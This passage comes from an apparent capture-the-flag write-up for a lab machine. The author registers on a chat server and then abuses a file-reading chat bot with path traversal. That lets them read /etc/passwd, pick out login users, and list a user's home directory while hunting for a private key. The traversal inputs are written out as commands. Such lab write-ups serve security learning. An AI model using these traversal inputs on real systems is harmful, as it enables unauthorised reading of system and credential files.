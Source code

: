 Let’s visit the registration URL; first add the new subdomain to our /etc/hosts file:

```bash
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

![image.png]({{ site.baseurl }}/assets/paper/image%208.png)

![image.png]({{ site.baseurl }}/assets/paper/image%209.png)

In the general chat, it seems like there is bot function:

![image.png]({{ site.baseurl }}/assets/paper/image%2010.png)

We go to direct message, and send commands to recyclops.

It seems the access is only for sale folder

Let’s list the directory:

```bash
list
```

![image.png]({{ site.baseurl }}/assets/paper/image%2011.png)

Let’s try and read a file:

```bash
recyclops file sale_2/portfolio.txt 
```

![image.png]({{ site.baseurl }}/assets/paper/image%2012.png)

Let’s see if it’s vulnerable to path traversing:

```bash
recyclops file sale/../../../../../etc/passwd
```

![image.png]({{ site.baseurl }}/assets/paper/image%2013.png)

It is. Saving the output to a file, let’s grep for users with bash login:

```bash
cat passwd | grep /bin/bash

root❌0:0:root:/root:/bin/bash
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

Let’s look in dwight’s dir, see if we can find a private key:

```bash
list sale/../../../../../home/dwight/
```

![image.png]({{ site.baseurl }}/assets/paper/image%2014.png)
